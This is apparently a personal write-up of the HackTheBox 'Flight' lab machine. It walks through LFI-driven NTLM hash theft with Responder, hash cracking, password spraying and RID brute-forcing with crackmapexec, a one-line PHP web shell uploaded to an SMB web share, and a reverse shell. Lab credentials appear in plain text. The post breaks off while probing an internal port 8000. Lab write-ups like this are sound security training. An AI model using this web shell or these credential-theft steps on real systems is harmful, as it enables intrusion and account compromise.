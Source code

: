 <h3> Flight HackTheBox </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c012e655-7e5c-4c31-8bf3-d31ab3d068d6)

We can see the domain name *flight.htb* I added it to my */etc/hosts* file

So there are lots of port but lets start enumerating

Checking smb doesn't allow anonymous listing of shares
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9296cc02-c57a-4eda-9c4a-b4541a8bd824)

Moving over to the web server on port 80 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/432b7a5c-8c37-426f-bb93-f8540d78ca8f)

There's nothing really there

So lets fuzz for subdomains
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/129097e3-8909-4f06-90f0-5e255ca79ee2)

I'll update my */etc/hosts* file with the new sub domain

Checking it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73ecbdbf-a6f4-4915-bb3d-6d665b840d05)

When I clicked on the home button i get this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c2c901e0-2e9f-4b5b-84ed-e551893e52db)

Noticing the url we can see that it's including the file *home.html*

We can say that this is vulnerable to local file inclusion lets confirm it 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c0a9997-6e39-48e1-be14-a0bfa3c115f0)

One way we can exploit this is by trying to perform ntlm hash theft 

Using responder i'll steal the ntlm hash
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6c41a537-551f-4fe6-aaa5-c3c21bcec541)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a55adb5c-80f3-49a1-b3fa-854601f3a899)

While on the web server I'll do this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/890cf68a-99be-4947-843f-862fa322773f)

Back on responder I got the hash for user *svc_apache*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b99248b3-00e9-4a8a-bb67-67b1977a0eed)

I brute forced it using JTR 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e2308968-3279-4b93-9a4b-06737a3e685c)

Now we have a cred `svc_apache:S@Ss!K@*t13`

Trying to authenticate to winrm fails 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fb1d2dd8-52b8-4dd4-bcfd-baec906a7ccf)

But we can login to smb using the cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/84057eae-b3fb-44be-9d06-8a0d697a16a2)

It shows the smb hostname as *G0* I also added that to my */etc/hosts* file

We don't really have good access over the shares but searching through the shares doesn't reveal any form of interesting cred
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/621c1544-ee11-48a7-b5de-dc8a67d859a2)

One thing we can do since we have smb cred is to get list of users on the box via *rid bruteforce* then perform a password spraying attack
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/880fe446-2b07-4ce0-96c6-2c1a546ff94c)

I saved the result in a file then used bash scripting to get only the usernames there

```
Command:
crackmapexec smb flight.htb -u 'svc_apache' -p 'S@Ss!K@*t13' --rid-brute > brute
cat brute | awk '{print $6}' | grep flight | cut -d '\' -f 2 | grep -v svc_apache > users.txt
```

Now we can use kerbrute to perform password spraying
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7fd70294-7f1d-40b9-b985-566b6af6c2ee)

Cool we have another user's cred `S.Moon:S@Ss!K@*t13`

Trying the cred over winrm fails
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f04279a-329d-47f2-bcc7-582c7db18ca5)

Checking the perm the user has over smb shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ed3fd86-c81d-4894-9784-0fec6423c2da)

Nice we have write access over the *Shared* share

But looking at the shares shows that no file is there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a9603fb-74f0-4cdb-a5c7-92f2dd367962)

What we can attempt to do is to upload a file whether *scf or ini* to perform ntlm hash theft

I used this [script](https://github.com/Greenwolf/ntlm_theft) to generate the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a57713e-6f1c-49bf-a382-8346f2484a40)

I had responder listening already and after some seconds I got a hit
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/42013ca3-f4be-40bb-b359-ad4e83458707)

I saved the hash then brute forced it using JTR
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ca94464f-f23c-429c-af71-aeced185015b)

We have another cred `c.bum:Tikkycoll_431012284`

Using cme i tried if it can connect to winrm but nope it can't
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/94ffe11c-cfbb-451b-bc1f-c66668f2e6dc)

Checking the perm the user has over smb gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0ca48bf4-77e5-4b2d-86f9-f7e9958669aa)

Nice we have access over the Web shares

Moving over there shows that this is where the web server files are placed
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cb232b32-9340-4f12-9123-4d02b8529734)

I uploaded a php command execution script
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46402f2e-bcaa-4bfa-b926-2e15e4e06761)

```php
<?php
system($_REQUEST['c']);
?>
```

We can now access it from the web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4fd99908-e66d-4600-b3f3-422b388dcb10)

To get shell I uploaded nc to the smb and then got shell from it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2ef35092-24bd-436a-b199-ff7cee2e16e4)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bb20f60e-0d5b-48cb-a37a-c32b730d5bda)

Shell finally 😃

Lets see what we can do from here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2f8b794a-bc58-4a65-a269-008fc0a972ae)

But what I noticed that the current working directory was *C:\xampp\htdocs\flight.htb* but there's a *inetpub* directory in the *C:/* drive

So this means maybe there's an internal web app running 🤔

Checking that directory shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/48468b00-b9e9-4585-9056-f48c78e392cf)

We can conclude that the only user privileged to access the *development* directory is user *C.Bum*

Though we have the user's cred but since our shell can't work well when we run *runas* i'll need a better shell

Luckily there's a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that can help with this

I uploaded it to the box then got to switch to user c.bum
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6004085a-1293-48fd-98f3-918d862fb696)

Back to the web directory it shows the user has write access over it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c3473dd-2836-45df-b4dc-092e63149b50)

So what i did was to upload a aspx shell since the web server will be IIS
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9aad22ff-2f43-4945-ae28-86d863e98d6a)

Now lets see if there's any internal port
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2cc26d04-6eec-4557-8f33-f1c7b58ccee1)

```
Command: netstat -ano
```

Port 8000 looks promising cause something is listening on it

And yea it's a web server
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58ec6cb2-3e6e-45c0-b8b3-447a601c97f4)
